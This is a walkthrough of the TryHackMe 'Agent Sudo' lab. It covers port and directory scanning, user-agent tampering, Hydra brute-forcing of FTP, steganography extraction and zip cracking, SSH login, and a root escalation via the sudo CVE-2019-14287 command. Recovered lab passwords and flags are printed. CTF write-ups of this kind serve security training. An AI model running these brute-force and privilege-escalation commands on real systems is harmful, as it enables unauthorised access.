


# Agent Sudo Writeup:
	
# Task 1: Enumeration

## NMap Scan:
First things first, I performed an NMap scan on the MACHINE_IP. I ran the following scan:

```shell
sudo nmap -vv -sS -sV -sC -oN nmap_out.txt {MACHINE_IP}
```

The scan returned the following results:
	
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

I saved the full results for this scan in this repository: [nmap_out.txt](./nmap_out.txt)

## GoBuster

```shell
gobuster -e -u {MACHINE_IP} -w dir_wordlist.txt -x .php,.txt,.js,.html
```

Only result after 22,000 entries:
	
```
http://{MACHINE_IP}/index.php (Status: 200)
```

I checked out the above url, and it returned the following text:
	
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

So, according to this, if the user-agent is changed on the http request for this site, then the message should change.

I typed "ctrl + shift + e" to open the FireFox Network tab on it's developer tools, and then refreshed the webpage:



After clicking on the request, I scrolled down the request headers, and at the bottom-right of the picture, you can see the "user-agent" header.



I clicked "Edit and Resend" and modified the "user-agent" header to "R", since the bottom of the original webpage mentions an "Agent R". I got the following:

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident

Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

I honestly did not know where to go from here, I looked at a hint on the TryHackMe room, and it said to try user-agent "C". So, when I changed the user-agent to "C", I got the following:
	
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your g*d d*mn password, is weak!

From,
Agent R 
```

So, now we have an agent's name: "chris", and a message that indicates that he has a weak password! Now we're getting somewhere!

I then tried to crack chris' SSH password with Hydra and the rockyou.txt wordlist:

``` shell
hydra -l chris -P rockyou.txt {MACHINE_IP} ssh
```

After about 10 minutes, I stopped it. Since this is an easy CTF, I figured that the SSH password was not supposed to be cracked. I then tried hydra for the FTP password:
	
```shell
hydra -l chris -P rockyou.txt 10.10.11.103 ftp
```

...and we cracked it!

```
[21][ftp] host: 10.10.11.103   login: chris   password: crystal
```

So then I logged into the machine through FTP:
	
```shell 
ftp {MACHINE_IP}
```

I was then prompted for a username/password. I inputed the following:
	
Username: **chris**
Password: **crystal**

Now that I was logged in through FTP, I ran an **ls -la** command. I recieved the following:

```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

I extracted the files onto my computer with the **"mget *"** command:
	
I then opened the the **"To_agentJ.txt"** file:
	
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

The above message indicates that there is login data stored inside these picture files. This concept of hiding information in files is called **"steganography"**. I looked up some steganography-related modules for Linux, and found "binwalk" and "steghide". I used these programs to extract the data out of these picture files.

The first command I ran was:
	
```shell
binwalk -e cutie.png
```

The extracted files were placed into a directory called: **_cutie.png.extracted**

The directory contained the following files:
	
```	
365, 365.zlib,  8702.zip,  To_agentR.txt
```

The "To_agentR.txt" file contained nothing. I attempted to extract the **8702.zip** file, but it required a password. I then ran the zip file through John the Ripper:
	
```shell
/home/{user}/john-bleeding-jumbo/run/zip2john 8702.zip > zip_hash;

/home/{user}/john-bleeding-jumbo/run/john zip_hash
```

It cracked the password! The password is: **alien** 

Now, after unzipping, we have the file **To_agentR.txt**. This is what's inside:
	
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

The "QXJlYTUx" string struck me as some kind of encoding-based obfuscation. So I tried to decode it with the following:
	
```shell
echo QXJlYTUx | base64 -d
```

Just as I thought! The decoded message now says:
	
```
Agent C,

We need to send the picture to 'Area51' as soon as possible!

By,
Agent R
```

Kind of cryptic. But maybe we can extract more information from the **"cute-alien.jpeg"**

Binwalk returned nothing. So I tried **steghide**:
	
```
steghide extract -sf cute-alien.jpg
```

It asks for a passphrase! Could it be **Area51**?

...Yes! The extracted data has been put on a file called **"message.txt"**:
	
```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Now we are getting somewhere! We got another name: **james**, and a login password: **hackerrules!**

I then tried to SSH into the server using username=**james** and password=**hackerrules!**

```
user@ubuntu$ ssh james@10.10.52.11
The authenticity of host '10.10.52.11 (10.10.52.11)' can't be established.
ECDSA key fingerprint is SHA256:yr7mJyy+j1G257OVtst3Zkl+zFQw8ZIBRmfLi7fX/D8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.52.11' (ECDSA) to the list of known hosts.
james@10.10.52.11's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Feb 23 02:32:11 UTC 2021

  System load:  0.0               Processes:           91
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 31%               IP address for eth0: 10.10.52.11
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ 

```

We are in!

I performed an **"ls"** command and found the following files:
	
```
Alien_autospy.jpg, user_flag.txt
```

I opened the user_flag.txt file:
	
```
b03d975e8c92a7c04146cfa7a5a313c7
```

I SCP'd the **Alien_autospy.jpg** onto my computer(really creepy!):
	


I performed some steganography research on it. But didn't come up with anything. I checked out the hint, it turns out they want you to do a reverse-image search and look up what the incident of the image is called: It's called the **"Roswell alien autopsy"**


## Privelege Escalation

I checked for the sudo version and got: **"Sudo version 1.8.21p2"**

I looked it up, and there is a privelege escalation vulnerability for this version of sudo: [CVE-2019-14287](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)

So, I ran the following command:
	
```shell
james@agent-sudo:~$ sudo -u#-1 bash
---
root@agent-sudo:~# whoami
root
```

Now I am root! I ran the following to find the root flag:
	
```shell
root@agent-sudo:~# find / -type f -name 'root.txt' 2>/dev/null

/root/root.txt
```

Here are the contents:
	
```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

I hope you found this useful!

